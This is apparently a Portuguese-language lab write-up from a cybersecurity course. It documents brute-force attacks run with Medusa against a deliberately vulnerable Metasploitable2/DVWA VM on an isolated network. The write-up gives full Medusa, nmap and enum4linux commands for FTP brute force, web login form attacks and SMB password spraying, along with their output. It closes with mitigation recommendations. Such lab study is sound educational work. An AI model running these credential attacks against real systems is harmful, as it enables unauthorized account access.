# Força Bruta com Medusa — Kali Linux, Metasploitable2 e DVWA

Projeto desenvolvido como desafio prático da trilha de cibersegurança da DIO. O objetivo é simular ataques de força bruta em ambiente controlado (FTP, formulário web via DVWA e SMB), documentar o processo e propor medidas de mitigação.

> ⚠️ Ambiente isolado em rede host-only, apenas para fins de estudo. Nenhum dos ataques aqui descritos deve ser aplicado fora de ambientes autorizados.

## Sumário

- [Ambiente](#ambiente)
- [1. Reconhecimento (Nmap)](#1-reconhecimento-nmap)
- [2. Força bruta em FTP](#2-força-bruta-em-ftp)
- [3. Automação em formulário web (DVWA)](#3-automação-em-formulário-web-dvwa)
- [4. Password spraying em SMB](#4-password-spraying-em-smb)
- [5. Recomendações de mitigação](#5-recomendações-de-mitigação)
- [Aprendizados](#aprendizados)
- [Estrutura do repositório](#estrutura-do-repositório)

## Ambiente

- **Kali Linux** — VM atacante, VirtualBox
- **Metasploitable2** — VM alvo, intencionalmente vulnerável
- **Rede**: host-only (VirtualBox Host Network Manager), isolando o tráfego da rede externa
- **IPs**:
  - Metasploitable2: `192.168.56.103`
  - Kali Linux: mesma sub-rede `192.168.56.0/24`

Teste de conectividade entre as VMs:

```bash
ping -c 3 192.168.56.103
```



Confirmação da interface de rede na Metasploitable2:

```bash
ifconfig
```



0% de perda de pacotes e latência baixa (~2-4 ms) confirmam que as duas VMs estão na mesma rede host-only e se enxergam corretamente.

## 1. Reconhecimento (Nmap)

Varredura de versão nas portas de interesse para o desafio (FTP, SSH, HTTP, SMB):

```bash
nmap -n -sV -p 21,22,80,139,445 192.168.56.103
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:7A:47:A6 (Oracle VirtualBox virtual NIC)
```



Saída filtrada e salva em arquivo, para referência rápida das portas abertas:

```bash
nmap -n -sV -p 21,22,80,139,445 192.168.56.103 | grep open > opensPort.txt
cat opensPort.txt
```



**Serviços-alvo identificados:** vsftpd 2.3.4 (FTP), Apache 2.2.8 com DVWA (HTTP) e Samba 3.X-4.X (SMB) — os três vetores propostos no desafio.

## 2. Força bruta em FTP

Wordlists simples, criadas apenas para fins didáticos:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > usersFTP.txt
cat usersFTP.txt
```



```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > passFTP.txt
cat passFTP.txt
```



Ataque com Medusa:

```bash
medusa -h 192.168.56.103 -U usersFTP.txt -P passFTP.txt -M ftp -t 6
```

| Flag | Significado |
|---|---|
| `-h` | host alvo |
| `-U` | arquivo de usuários |
| `-P` | arquivo de senhas |
| `-M` | módulo de protocolo (ftp, http, smbnt, etc.) |
| `-t` | número de threads paralelas |

**Resultado:**

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.103 User: msfadmin Password: msfadmin [SUCCESS]
```

Validação manual do acesso encontrado:

```bash
ftp 192.168.56.103
Name: msfadmin
Password: ********
230 Login successful.
```



**Credencial válida:** `msfadmin` / `msfadmin`

## 3. Automação em formulário web (DVWA)

DVWA acessado em `http://192.168.56.103/dvwa`, nível de segurança em **low** (DVWA Security > Security Level), para fins de demonstração do ataque. Os campos do formulário de login foram inspecionados antes do ataque para identificar os parâmetros `username`, `password` e `Login`.

```bash
medusa -h 192.168.56.103 -U usersForm.txt -P passForms.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```



**Observação importante (aprendizado):** nesse teste, praticamente todas as combinações testadas — inclusive as claramente erradas — retornaram `ACCOUNT FOUND`. Isso indica que a string configurada em `FAIL=Login failed` não bateu corretamente com a resposta real de falha do DVWA, gerando falsos positivos. Fica documentado como ponto de atenção: antes de confiar no resultado de um brute force web, é essencial validar manualmente (ex: inspecionar a resposta HTTP de uma tentativa errada) qual é o texto exato retornado em caso de falha, e ajustar `FAIL`/`DENY-SIGNAL` de acordo.

## 4. Password spraying em SMB

Confirmação de que o serviço SMB aceita sessão nula e listagem de compartilhamentos com uma credencial já conhecida:

```bash
smbclient -L //192.168.56.103 -U msfadmin
```



Enumeração de usuários do sistema via `enum4linux`, filtrando e extraindo apenas os nomes de usuário para uma wordlist:

```bash
enum4linux -a 192.168.56.103 | grep user | tee enum4_users.txt
grep -oP '(?<=user:\[)[^\]]+' enum4_users.txt > smb_users.txt
cat smb_users.txt
```



35 usuários do sistema extraídos (ex: `root`, `msfadmin`, `ftp`, `mysql`, `postgres`, `daemon`, entre outros serviços do sistema).

Password spraying: lista de usuários extraída contra um pequeno conjunto de senhas comuns, via módulo `smbnt`:

```bash
medusa -h 192.168.56.103 -U smb_users.txt -P passSMB.txt -M smbnt
```

**Resultado:**

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.103 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```



## 5. Recomendações de mitigação

| Vulnerabilidade explorada | Mitigação recomendada |
|---|---|
| Sem limite de tentativas de login | Rate limiting / bloqueio de conta após N tentativas falhas |
| Senha fraca e reaproveitada entre serviços (`msfadmin`/`msfadmin` válida em FTP, DVWA e SMB) | Política de complexidade + proibição de reuso da mesma senha entre contas/serviços |
| Ausência de segundo fator | Habilitar MFA sempre que possível |
| Enumeração de usuários via SMB (sessão nula / enum4linux) | Restringir sessões nulas (`RestrictAnonymous`), desabilitar SMBv1, limitar acesso aos compartilhamentos |
| Serviços antigos e vulneráveis expostos (vsftpd 2.3.4, Samba antigo) | Atualizar/substituir versões obsoletas, remover serviços desnecessários |
| Falta de monitoramento | Logs centralizados + fail2ban/IDS para detectar múltiplas tentativas de login em curto intervalo |

## Aprendizados

- A mesma credencial fraca (`msfadmin`/`msfadmin`) foi válida nos três serviços atacados — reforça o risco prático do reaproveitamento de senha entre sistemas.
- Enumeração prévia (nmap + enum4linux) foi essencial para reduzir o escopo do ataque SMB a uma wordlist de usuários reais, em vez de tentar nomes aleatórios.
- No ataque web via Medusa, validar a string de falha (`FAIL`/`DENY-SIGNAL`) é crítico — um sinal mal configurado gera falsos positivos e invalida o resultado do teste.
- Ataques de força bruta e password spraying contra sistemas desatualizados e sem políticas de senha são triviais de executar — reforçando a importância das mitigações listadas acima em ambientes reais.

## Estrutura do repositório

```
.
├── README.md
├── wordlists/
│   ├── usersFTP.txt
│   ├── passFTP.txt
│   ├── usersForm.txt
│   ├── passForms.txt
│   ├── smb_users.txt
│   └── passSMB.txt
└── images/
    ├── ping-kali-to-meta.png
    ├── ifconfig-metasploitable.png
    ├── nmap-scan.png
    ├── nmap-openports-grep.png
    ├── wordlist-users.png
    ├── wordlist-passwords.png
    ├── ftp-attack-and-login.png
    ├── dvwa-attack.png
    ├── smb-share-listing.png
    ├── smb-enum4linux-wordlist.png
    └── smb-spray-result.png
```
